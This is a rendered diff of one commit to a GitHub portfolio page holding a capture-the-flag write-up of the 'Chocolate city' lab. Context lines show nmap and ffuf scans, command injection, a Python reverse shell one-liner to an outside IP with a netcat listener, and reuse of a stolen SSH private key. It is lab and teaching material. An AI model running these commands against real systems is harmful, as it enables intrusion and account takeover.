

Before and after one commit to Tharisky/Portfolio, a Markdown page: Web App/Labs/Chocolate city.md, the part around the change. Shown at 97% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Web App/Labs/Chocolate city.md
+++ b/Web App/Labs/Chocolate city.md
@@ -11,7 +11,7 @@ Nmap scan: The pentest started with a nmap scan using
 nmap -T4 -sV -A 10.10.12.204
 ![image](https://github.com/user-attachments/assets/d6c9ab51-46d6-495e-981e-8544c5f4d30c)
 
-This have back the services running on the server,
+This gave  back the services running on the server,
 
 
 a. Port 21: This allowed anonymous login, and the port was accessed using
@@ -22,7 +22,7 @@ After a succesful login, the file was downloaded
 
 
 
-picture showing the download
+picture showing the downloaded file
 ![gum_room](https://github.com/user-attachments/assets/39218184-a257-44b5-9826-ecdcd8ec7f1d)
 
 b.  80: The website has a homepage with a login form
@@ -30,6 +30,7 @@ b.  80: The website has a homepage with a login form
 The homepage
 ![image](https://github.com/user-attachments/assets/88eac3bd-6883-4760-a27f-67bc0fafd0b0)
 
+The source code of the page ws checked out, and from it, a link tagged "validatee.php" was found which proved that the website was running on php
 
 The port 80 was subjected to directory bruteforce using FFUF
 ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.204/FUZZ -e .php, .HTML
@@ -49,9 +50,9 @@ Trying the comman d"Cat /etc", the website gave a response showing that it is vu
 
 
 
-the website was querried to confirm if there is a python binary on it
+using the command " which python3 " on the page, the server hosting website was querried to confirm if there is a python binary on it , and the response showed that there is a python binary
 
-using the command
+then using the command
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.106.235",2294));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 and
 nc -nlvp 2249
@@ -69,7 +70,7 @@ Part B: Privilege escalation
 After initial access was gained with the user www-data
 some files were found in the directory which includes key_rev_key
 
-Using the command "strings" to check the content of the file "key_rev_key"
+Using the command "strings" to check the content of the file "key_rev_key", a key was found
 ![image](https://github.com/user-attachments/assets/af1530b0-29d1-4246-a24c-22a9777c0180)
 
 
@@ -79,9 +80,7 @@ Thn I navigated to charlie's home directory and files like telport, telport.pub
 the content of charlie's home directory
 ![image](https://github.com/user-attachments/assets/fc896cf9-6549-4345-90e2-ecf7d2debc0c)
 
-
-
-The teleport file contained a private ssh key, this key was copied and saved on the attacker's machine
+The teleport file contained a private ssh key, this key was copied and saved on the attacker's machine with the name "charley'
 
 The key was then used to login to charlie's account via ssh
 ssh charlie@10.10.12.204 -i charley
@@ -91,7 +90,10 @@ Picture showing a successful login
 
 
 
+A user flag was then found in the user home directory..
 
+
+Then to gaining root access..... coming soon
 
 
 
```
